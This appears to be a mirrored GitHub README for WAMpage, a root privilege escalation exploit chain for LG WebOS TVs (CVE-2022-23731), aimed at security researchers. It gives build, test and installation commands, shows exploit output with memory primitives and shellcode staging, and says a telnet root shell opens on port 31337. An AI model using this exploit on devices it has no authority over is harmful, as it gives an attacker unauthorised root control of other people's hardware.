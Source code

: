 # WAMpage

WAMpage - A WebOS root LPE exploit chain (CVE-2022-23731)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/DavidBuchanan314](https://github.com/DavidBuchanan314) |
| Url      | [https://github.com/DavidBuchanan314/WAMpage](https://github.com/DavidBuchanan314/WAMpage)                                               |
| Stars    | 46                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* arm* cve-2022-23731* exploit* javascript* lg-webos* lg-webos-tv* lpe* python* v8* webos* webos-tv

</details>

## Readme

# WAMpage
WAMpage - A WebOS root LPE exploit chain (CVE-2022-23731)

This exploit is mainly of interest to other researchers - if you just want to root your TV, you probably want [RootMyTV](https://github.com/RootMyTV/RootMyTV.github.io), which offers a reliable 1-click persistent root.

Currently only supports WebOS 4.x on 32-bit SoCs. This software is provided AS IS, use at your own risk, etc. etc.

Writeup: https://www.da.vidbuchanan.co.uk/blog/webos-wampage.html

![image](https://user-images.githubusercontent.com/13520633/147524216-c9fab6cd-6841-42ab-96b4-b7dd91ff0b23.png)


## Building

Prerequesites:

```bash
apt install qemu-user
npm install -g @webosose/ares-cli
```

Compiling:

```bash
make
```

## Testing Locally

`make test` will build and run the exploit in `d8`, running in `qemu-arm`. (A pre-compiled version of d8 and its dependencies are included in the `bin/` directory). If the exploit works succesfully, you'll probably get something like this:

```
[+] Starting WAMpage...
[+] addrof(myobj) = 0x5a68f5d1
[+] Test: reconstructed myobj: {"foo":"bar"}
[+] Set up arbread32/arbwrite32.
[+] stage2 shellcode loaded @ 0xff458000
[+] myfunc @ 0x5a693369
[+] stage1 RWX buf @ 0x5bb8f280
[+] Copied stage1 shellcode. Calling...
Traceback (most recent call last):
  File "<stdin>", line 25, in <module>
IOError: [Errno 13] Permission denied: '/dev/mem'
```

The permission error is expected, assuming your machine isn't totally misconfigured.

You can test the `devmemes.py` exploit by running it directly on a TV, but you'll either need root to begin with, or some other kind of unsandboxed/unjailed shell.

## Installation on TV

You can use `ares-install`, or manually copy over the IPK and run this from the devmode shell:

```bash
luna-send-pub -i 'luna://com.webos.appInstallService/dev/install' '{"id":"tv.rootmy.wampage","ipkUrl":"/path/to/wampage.ipk","subscribe":true}'
```

## Running on TV

Launch the app and press the "Start Exploit" button. If all goes well, a telnet server should open up on port 31337.



## Get the content

```
git clone https://github.com/DavidBuchanan314/WAMpage
cd WAMpage
```

{% embed url="https://github.com/DavidBuchanan314/WAMpage" %}

<figure><img src="https://avatars.githubusercontent.com/u/13520633?v=4" alt=""><figcaption><p>DavidBuchanan314</p></figcaption></figure>
